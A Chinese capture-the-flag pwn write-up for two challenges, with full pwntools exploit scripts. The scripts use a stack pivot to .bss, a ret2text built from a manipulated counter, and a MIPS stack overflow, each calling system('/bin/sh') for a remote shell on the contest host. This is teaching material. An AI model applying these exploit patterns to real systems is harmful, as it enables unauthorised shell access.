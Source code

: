 ```yaml
---
typora-copy-images-to: ./images
---
```


## arknights

栈迁移+read读

先贴exp：

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='i386',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
host = 'gz.imxbt.cn'
post = 20998
#p = process('./pwn')
p = remote(host,post)
elf = ELF('./pwn')
#libc = ELF('./pwn')
#gdb.attach(p)

pop_rdi = 0x00000000004018e5
leave = 0x0000000000401393
sys = 0x000000000401130
read = 0x0000000004018A8

p.sendline(b' ')
p.sendline(b'4')
p.sendline(b'1')
payload = b'a'*0x40+p64(elf.bss(0x408))+p64(read)
pause()
p.send(payload)
pause()
payload2 = b'/bin/sh\x00'*0x8+p64(0)+p64(pop_rdi)+p64(elf.bss(0x400-0x20))+p64(sys)
pause()
p.send(payload2)
pause()
p.sendline('exec 1>&0')
p.interactive()
```

前面抽卡那里没什么问题，直接跳过

![image-20250409222505750](./images/image-20250409222505750.png)

这里可以看到`read(0,s,0x60)`这里存在栈溢出，溢出了0x20字节，并且执行`system`指令，那么我们的利用思路就很清晰了：

覆写rbp为bss段地址->利用read函数将`/bin/sh`写入`bss`段(这里vmmap看过了，bss段可写)->通过`pop rdi`执行`/bin/sh`

```python
payload = b'a'*0x40+p64(elf.bss(0x408))+p64(read)
```

`elf.bss(offset)`函数：返回值为`int`,为`.bss`段的地址，加上特定的offset。在这里就是返回到`bss段+0x408`的位置

![image-20250410163130779](./images/image-20250410163130779.png)

这里调试可以看到，我们将rbp覆盖为了bss段某个地址，接下来就是执行read相关的指令，且read将读入的内容存放在`rbp-0x40`处

```python
payload2 = b'/bin/sh\x00'*0x8+p64(0)+p64(pop_rdi)+p64(elf.bss(0x400-0x20))+p64(sys)
```

接下来因为调用的还是这个`read(0,s,0x60)`，所以先填充0x40字节的`/bin/sh\x00`到bss段，接下来再次覆盖rbp为0，执行pop_rdi，弹出bss段+0x400-0x20处的内容

### 官方ret2text解

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
host = 'gz.imxbt.cn'
post = 20476
p = process('./pwn')
#p = remote(host,post)
elf = ELF('./pwn')
#libc = ELF('./pwn')
gdb.attach(p)

pop_rdi = 0x00000000004018e5
count = 0x000000000405BCC
sys = 0x0000000004018FC
# sh p64(26739)
payload = b'a'*0x48+p64(pop_rdi)+p64(count)+p64(sys)

def ck(n):
    p.recv()
    p.sendline(b'3')
    p.recv()
    p.sendline(str(n).encode())
    p.sendline(b'\n')

p.sendline(b'a')
ck(10000)
ck(10000)
ck(6739)

p.recv()
p.sendline(b'4')
p.recv()
p.sendline(b'1')
pause()
p.sendline(payload)
pause()
p.sendline(b'exec 1>&2')
p.interactive()
```

![image-20250411163332817](./images/image-20250411163332817.png)

这里跟进`star()`函数

![image-20250411163453827](./images/image-20250411163453827.png)

看到`sum_count`会根据抽卡次数加加

那么我们可以通过合理控制`sum_count`的值，使之变成`sh`

```python
❯ python3
Python 3.12.3 (main, Feb  4 2025, 14:48:35) [GCC 13.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> print(u64(b'sh'.ljust(8,b'\x00')))
26739
```

所以，后面就很简单了

## EZ3.0

mips架构，但是简单栈溢出，甚至有gadget

先贴exp：

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='i386',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
host = 'gz.imxbt.cn'
post = 20860
#p = process('./pwn')
p = remote(host,post)
elf = ELF('./pwn')
#libc = ELF('./pwn')
#gdb.attach(p)

gadget = 0x0400A20
binsh = 0x0411010
door = 0x409c8
sys  =0x0400B70
payload = b'a'*32+b'a'*0x4+p32(gadget)+p32(0)+p32(sys)+p32(binsh)
p.sendline(payload)
p.interactive()
```



![image-20250411164446671](./images/image-20250411164446671.png)

*ida竟然也能逆这个，还是太强大了*

一眼栈溢出，左边还有个`JustIsBackdoor`

![image-20250411164758069](./images/image-20250411164758069.png)

源码一看，下面跟着就是`gadget`（不知道意思的话直接问问ai）

payload就很好写了，以下略
